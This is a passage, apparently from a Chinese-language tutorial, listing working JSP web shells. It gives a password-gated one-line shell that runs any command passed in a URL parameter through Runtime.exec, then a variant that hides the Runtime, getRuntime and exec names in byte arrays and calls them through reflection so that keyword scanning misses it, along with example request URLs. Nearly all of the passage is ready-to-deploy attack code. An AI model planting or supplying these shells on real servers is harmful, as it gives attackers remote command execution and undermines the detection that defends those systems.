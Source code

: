 ```java
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML> 
```
GET传参：?pwd=bmth&cmd=ls
```java
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("bmth".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

**反射Runtime命令执行**
如果我们不希望在代码中出现和`Runtime`相关的关键字，我们可以全部用反射代替
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
    String str = request.getParameter("str");

    // 定义"java.lang.Runtime"字符串变量
    String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});

    // 反射java.lang.Runtime类获取Class对象
    Class<?> c = Class.forName(rt);

    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));

    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}), String.class);

    // 反射调用Runtime.getRuntime().exec(xxx)方法
    Object obj2 = m2.invoke(m1.invoke(null, new Object[]{}), new Object[]{str});

    // 反射获取Process类的getInputStream方法
    Method m = obj2.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    Scanner s = new Scanner((InputStream) m.invoke(obj2, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";

    // 输出命令执行结果
    out.println(result);
%>
```
命令参数是str，如：`reflection-cmd.jsp?str=pwd`
